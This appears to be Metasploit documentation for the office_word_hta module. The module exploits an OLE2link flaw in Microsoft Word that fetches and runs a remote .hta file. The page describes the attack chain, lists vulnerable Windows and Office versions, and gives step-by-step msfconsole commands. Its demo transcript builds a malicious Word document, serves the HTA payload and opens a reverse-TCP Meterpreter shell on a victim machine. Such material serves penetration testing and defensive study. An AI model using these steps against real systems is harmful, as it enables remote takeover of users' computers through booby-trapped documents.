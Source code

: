 ## Introduction

Microsoft Office is an office suite of applications, servers, and services developed by Microsoft. Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on. They can support OLE data integration and Visual Basic for Application scripting language.

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability. This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit. FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object. When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file. The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process, downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a user prompt generated by the OLE2link.


## Vulnerable Application


- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)


## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/fileformat/office_word_hta```
3. Do: ```set payload [PAYLOAD NAME]```
3. Do: ```exploit```

## Demo

```
msf > use exploit/windows/fileformat/office_word_hta
msf exploit(office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(office_word_hta) > set lhost 192.168.146.1
lhost => 192.168.146.1
msf exploit(office_word_hta) > set srvhost 192.168.146.1
srvhost => 192.168.146.1
msf exploit(office_word_hta) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.1:4444
[+] msf.doc stored at /Users/wchen/.msf4/local/msf.doc
[*] Using URL: http://192.168.146.1:8080/default.hta
[*] Server started.
```

After you have the malicious doc file and servers ready, copy the doc file onto the victim machine,
and open it with Microsoft Office Word. You should receive a session:

```
[*] Sending stage (957487 bytes) to 192.168.146.145
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2017-04-24 16:00:49 -0500
```
